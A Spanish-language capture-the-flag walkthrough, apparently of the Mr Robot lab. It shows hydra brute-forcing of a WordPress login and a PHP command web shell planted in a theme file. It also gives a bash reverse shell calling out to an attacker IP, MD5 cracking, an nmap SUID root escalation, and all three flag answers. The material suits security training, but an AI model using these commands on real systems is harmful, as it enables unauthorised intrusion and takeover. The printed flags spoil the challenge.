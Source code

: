 # Summary
- IP: 10.10.134.125
- Ports: 80,443
- OS: Linux (Ubuntu)
- Services & Applications:
	-  80 -> Apache httpd
	-  443 -> Apache httpd

# Recon

- Escaneo de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.134.125 -oG allPorts
```

- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p80,443 -sCV 10.10.134.125 -oN targeted
```

- Examinamos la página web con gobuster:

```
$gobuster dir -u http://10.10.134.125/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```


- Analizamos el archivo "robots.txt" y encontramos directorios, examinamos los mismos y encontramos la primera flag:
# 1ra FLAG: 073403c8a58a1f80d943455fb30724b9

- Analizamos el directorio "wp-login.php" y nos encontramos con una página de login de wordpress, interceptamos con burpsuite la petición al intentar logear y encontramos los parámetros log y pwd, los cuales usaremos con hydra para aplicar fuerza bruta; 
- Primero encontraremos un usuario, esto usando el diccionado encontrado antes en el archivo robots.txt
PoC:
```
hydra -L <user.file> -P <password.file> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”```
```


```
$hydra -L fsocity.dic -p test 10.10.134.125 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.125%2Fwp-admin%2F&testcookie=1:invalid username" -t 30
```

- Encontramos el usuario Elliot, ahora intentamos encontrar la contraseña:

```
$hydra -l Elliot -P file.txt 10.10.134.125 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.125%2Fwp-admin%2F&testcookie=1:The password you entered for the username" -t 30
```


O usando wpscan:

```
$wpscan --url http://10.10.134.125/wp-login.php -U Elliot -P /home/dante/Tryhackme/MrRobotCTF/content/fsocity.dic
```


- Accdemos al panel de Wordpress, buscamos el editor de temas, escogemos una plantilla, buscamos el recurso 404 template y lo editamos incrustándole una reverse shell en PHP:


```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Guardamos el recurso y accedemos a él poniéndonos en escucha en el puerto 443:

http://10.10.134.125/wp-content/themes/twentythirteen/404.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.18.101.123/443  0>%261"

- Hacemos tratamiento de la tty y buscamos la segunda flag.
- Como la tty no se encuentra ejecutada como bash lo hacemos con el siguiente comando:

python -c 'import pty;pty.spawn("/bin/bash")'

- No tenemos permisos paras abrir la flag, pero tenemos un archivo password md5 el cual tendremos que crackear con John:

```
$sudo john --format=Raw-MD5 -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt password.txt
```


- Encontramos la segunda flag:
# 2da FLAG: 822c73956184f694993bede3eb39f959



# Escalando privilegios:

- Buscamos binarios con permisos SUID:

```
robot@linux:/usr/local/bin$ find / -perm -4000 2>/dev/null
```


- Notamos que podemos ejecutar nmap con permisos SUID, buscamos en GTFobins posibles maneras de acceder como root y vemos lo siguiente:

```
The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.


nmap --interactive
nmap> !sh
```


- Buscamos la root flag:
# ROOT FLAG 3ra: 04787ddef27c3dee1ee161b21670b4e4